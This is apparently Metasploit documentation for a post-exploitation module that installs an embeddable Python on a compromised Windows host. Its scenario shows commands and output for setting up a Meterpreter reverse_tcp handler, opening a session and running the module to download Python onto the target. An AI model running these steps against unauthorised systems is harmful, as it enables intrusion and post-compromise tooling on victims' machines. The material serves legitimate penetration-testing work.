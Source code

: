 ## Overview

This module downloads an embeddable Python3 distribution onto the target
file system, granting pentesters access to a lightweight Python
interpreter. This module does not require administrative privileges or
user interaction with installation prompts.
This is useful in cases where the in-memory python interpreter might
be limited.  If you only want to run a python script while connected,
see https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/python-extension.html.

## Tested Version
This module has been tested against:

1. Windows 10, 1903

## Verification Steps

  1. Start msfconsole
  2. Get a Meterpreter session
  3. Do: `use post/windows/manage/install_python`
  4. Do: `set SESSION #`
  5. Optional Do: `set PYTHON_VERSION`
  6. Optional Do: `set PYTHON_URL`
  7. Optional Do: `set FILE_PATH`
  8. Do: `run`


## Options
  **PYTHON_VERSION**

  Specifies the Python version you would like to download. Downloads Python version 3.8.2 by default.

  **PYTHON_URL**

  Specifies the URL used to download the Python embeddable zip file.

  **FILE_PATH**

  Specifies the directory to place the Python embeddable zip file.
  Places Python zip file in the current working directory by default.

  **CLEANUP**

  If true, this option will delete the Python zip file as well as its extracted contents. It will also terminate running processes with name 'python', as you cannot delete the Python interpreter if it is actively running.

## Scenarios

Get initial access: Create a Meterpreter exe using msfvenom, then transfer it to the target system via web server, SMB, etc. Execute the payload to get a session.

    msf > handler -H 0.0.0.0 -P 4444 -p windows/meterpreter/reverse_tcp
    [*] Payload handler running as background job 0.

    [*] Started reverse TCP handler on 0.0.0.0:4444
    msf >
    [*] Sending stage (180291 bytes) to 192.168.13.129
    [*] Meterpreter session 1 opened (192.168.13.130:4444 -> 192.168.13.129:50069) at 2020-03-04 20:32:59 -0500

Use the post module to install Python on the target filesystem

    msf > use post/windows/manage/install_python
    msf post(windows/manage/install_python) > set SESSION 1
    SESSION => 1
    msf post(windows/manage/install_python) > exploit

    [*] Downloading Python embeddable zip from https://www.python.org/ftp/python/3.8.2/python-3.8.2-embed-win32.zip
    [+] Compressed size: 1112
    [*] Extracting Python zip file: .\python-3.8.2-embed-win32.zip
    [+] Compressed size: 952
    [*] Ready to execute Python; spawn a command shell and enter:
    [+] .\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    [!] Avoid using this python.exe interactively, as it will likely hang your terminal; use script files or 1 liners instead
    [*] Post module execution completed

Verify Python works

    msf post(windows/manage/install_python) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > shell
    Process 2688 created.
    Channel 5 created.
    Microsoft Windows [Version 10.0.17763.1039]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\buddha\AppData\Local\Temp>.\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    .\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    Hello, world!

Note that running this Python interpreter interactively may hang your command shell.
